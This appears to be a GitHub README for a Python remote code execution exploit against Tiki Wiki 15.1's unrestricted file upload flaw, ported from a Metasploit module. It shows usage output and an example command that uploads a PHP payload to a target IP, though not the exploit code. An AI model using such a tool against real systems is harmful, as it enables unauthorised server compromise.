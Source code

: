 # Tiki Wiki 15.1 unrestricted file upload exploit
Standalone Python 3 RCE exploit for Tiki Wiki 15.1 based on the [Metasploit module](https://www.exploit-db.com/exploits/40091)
This is a rewrite of the Metasploit module in Python, to be used outside Metasploit.

Tested on Tiki Wiki 15.1 running on mysql 5.5.50 x64, php 5.6.40, Ubuntu Server 16.04.6 LTS
## Usage
```
root@Kali:~/# python3 tikiwiki_15.1_RCE.py -h
usage: tikiwiki_15.1_RCE.py [-h] -U URL -P PHP

Required arguments:
  -U URL, --url URL  URL of the Tiki Wiki page eg.
                     http://webserver.com/tikiwiki
  -P PHP, --php PHP  Path to php payload eg. payload.php
root@Kali:~/# python3 tikiwiki_15.1_RCE --url 'http://192.168.92.151/tiki' --php payload.php
```
